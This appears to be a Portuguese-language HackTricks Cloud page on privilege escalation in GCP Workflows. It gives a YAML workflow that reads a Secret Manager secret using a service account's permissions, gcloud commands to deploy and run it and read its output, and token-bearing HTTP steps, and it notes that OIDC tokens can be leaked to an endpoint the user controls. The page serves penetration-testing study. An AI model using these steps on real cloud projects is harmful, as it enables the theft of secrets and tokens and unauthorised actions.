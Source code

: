 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informações Básicas:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Até onde sei, não é possível obter um shell com acesso ao endpoint de metadados contendo as credenciais da SA atacada a um Workflow. No entanto, é possível abusar das permissões da SA adicionando as ações a serem realizadas dentro do Workflow.

É possível encontrar a documentação dos conectores. Por exemplo, esta é a [**página do conector Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Na barra lateral, é possível encontrar vários outros conectores.

E aqui você pode encontrar um exemplo de um conector que imprime um segredo:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Atualização a partir da CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Se você receber um erro como `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, apenas **espere um minuto e tente novamente**.

Se você não tiver acesso à web, é possível acionar e ver a execução de um Workflow com:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Você também pode verificar a saída de execuções anteriores para procurar informações sensíveis
{% endhint %}

Note que mesmo se você receber um erro como `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` porque você não tem essa permissão, o fluxo de trabalho foi gerado.

### Vazamento de token OIDC (e OAuth?)

De acordo com [**a documentação**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), é possível usar etapas de fluxo de trabalho que enviarão uma solicitação HTTP com o token OAuth ou OIDC. No entanto, assim como no caso do [Cloud Scheduler](gcp-cloudscheduler-privesc.md), a solicitação HTTP com o token Oauth deve ser para o host `.googleapis.com`.

{% hint style="danger" %}
Portanto, é **possível vazar o token OIDC indicando um endpoint HTTP** controlado pelo usuário, mas para vazar o **token OAuth** você precisaria de um **bypass** para essa proteção. No entanto, você ainda pode **contatar qualquer API do GCP para realizar ações em nome da SA** usando conectores ou solicitações HTTP com o token OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Com esta permissão, em vez de `workflows.workflows.create`, é possível atualizar um fluxo de trabalho já existente e realizar os mesmos ataques.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
